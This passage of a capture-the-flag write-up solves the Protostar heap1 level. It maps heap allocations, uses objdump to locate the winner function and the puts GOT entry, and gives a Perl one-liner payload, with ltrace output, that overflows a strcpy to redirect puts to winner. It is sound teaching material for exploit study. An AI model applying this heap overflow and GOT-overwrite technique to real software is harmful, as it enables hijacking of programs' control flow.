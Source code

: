 Lets make some sense of all those mallocs:

internet1 at 0x0804a008 (size 8)
--> internet1.priority at 0x0804a008 (size 4)
--> internet1.name at 0x0804a00c (size 4)
----> memory area pointed by internet1.name at 0x0804a018 (size 8)
internet2 at 0x0804a028 (size 8)
--> internet2.priority at 0x0804a028 (size 4)
--> internet2.name at 0x0804a02c (size 4)
----> memory area pointed by internet2.name at 0x0804a038 (size 8)

So with our A payload we could easily overwite internet2.priority, internet2.name and memory area pointed by internet2.name.
Our B payload will be written to the address stored in **internet2.name** by default this address points to the value returned by the last malloc call: 0x0804a038 but we can overwrite it with our A payload.
Thats pretty nice, we can write any arbitrary content (B payload) in any arbitrary address (controlled by A payload). All we have to do is replace the GOT entry for the **puts** call we saw in the ltrace output, so when it gets executed, we can execute another function instead.

Lets find **winner** address:

```lang-bash line-numbers 
user@protostar:~$ objdump -t /opt/protostar/bin/heap1 | grep winner
08048494 g     F .text	00000025              winner
```

and the **puts** entry in GOT:

```lang-bash line-numbers 
user@protostar:~$ objdump -TR /opt/protostar/bin/heap1 | grep puts
00000000      DF *UND*	00000000  GLIBC_2.0   puts
08049774 R_386_JUMP_SLOT   puts
```

And now lets do some maths and build our payload:

A payload: Ax(0x0804a02c - 0x0804a018) + "\x74\x97\x04\x08" = "A"x 20 . "\x74\x97\x04\x08"
B payload: "\x94\x84\x04\x08"

```lang-bash line-numbers 
user@protostar:~$ /opt/protostar/bin/heap1 `perl -e 'print "A"x20 ."\x74\x97\x04\x08"'` `perl -e 'print "\x94\x84\x04\x08"'`
and we have a winner @ 1387538886
```

Nice, lets check the internals with **ltrace**:

```lang-bash line-numbers 
user@protostar:~$ ltrace /opt/protostar/bin/heap1 `perl -e 'print "A"x20 ."\x74\x97\x04\x08"'` `perl -e 'print "\x94\x84\x04\x08"'`
__libc_start_main(0x80484b9, 3, 0xbffff854, 0x8048580, 0x8048570 <unfinished ...>
malloc(8)                                                                                     = 0x0804a008
malloc(8)                                                                                     = 0x0804a018
malloc(8)                                                                                     = 0x0804a028
malloc(8)                                                                                     = 0x0804a038
strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAAt\227\004\b")                                         = 0x0804a018
strcpy(0x08049774, "\224\204\004\b")                                                          = 0x08049774
puts("and that's a wrap folks!" <unfinished ...>
time(NULL)                                                                                    = 1387538870
printf("and we have a winner @ %d\n", 1387538870and we have a winner @ 1387538870
)                                             = 34
<... puts resumed> )                                                                          = 34
```